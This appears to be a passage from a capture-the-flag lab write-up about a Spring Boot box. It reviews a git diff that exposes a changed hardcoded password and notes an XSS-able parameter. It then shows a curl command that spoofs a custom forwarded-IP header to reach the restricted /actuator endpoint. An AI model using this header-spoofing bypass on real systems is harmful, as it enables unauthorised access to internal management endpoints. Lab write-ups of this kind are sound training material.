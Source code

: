 ```diff
         @RequestMapping("/")
-        public String hello() {
-            return "Hello WORLD";
+        public String hello(@RequestParam(value = "name", defaultValue = "World") String name) {
+            System.out.println(name);
+            return String.format("Hello, %s!", name);
         }
     }
 
@@ -57,8 +60,6 @@ public class Application {
                 securityConstraint.addCollection(collection);
                 context.addConstraint(securityConstraint);
                 context.setUseHttpOnly(true);
-
-                System.out.println(context.findChild("default"));
             }
 
             @Override
diff --git a/src/main/resources/application.properties b/src/main/resources/application.properties
index ccf5992..71e1811 100644
--- a/src/main/resources/application.properties
+++ b/src/main/resources/application.properties
@@ -12,7 +12,7 @@ spring.autoconfigure.exclude=org.springframework.boot.autoconfigure.web.servlet.
 server.servlet.register-default-servlet=true
 spring.mvc.ignore-default-model-on-redirect=true
 spring.security.user.name=johnsmith
-spring.security.user.password=idontwannag0
+spring.security.user.password=PrettyS3cureSpringPassword123.
 debug=false
 spring.cloud.config.uri=
 spring.cloud.config.allow-override=true
```

We can insert html and js in the `/?name` page but.. doesn't get us anywhere...

In `build.graddle` we see
```java
dependencyManagement {
    imports {
        mavenBom "org.springframework.cloud:spring-cloud-dependencies:${springCloudVersion}"
    }
}
```

Maybe we can inject an environment variable later ?

Looking at a write up brought my attention to 
`server.tomcat.remoteip.remote-ip-header=x-9ad42dea0356cb04` in `applications.properties`

Searching for this, we see that it replace the `x-forwarded-for` header. 
We can then use `curl --header "x-9ad42dea0356cb04: 172.16.0.3"  https://spring.thm/actuator -k -v` and we get a response !
```
{
	_links: {
	self: {
	href: "https://spring.thm/actuator",
	templated: false
	},
	beans: {
	href: "https://spring.thm/actuator/beans",
	templated: false
	},
	health: {
	href: "https://spring.thm/actuator/health",
	templated: false
```
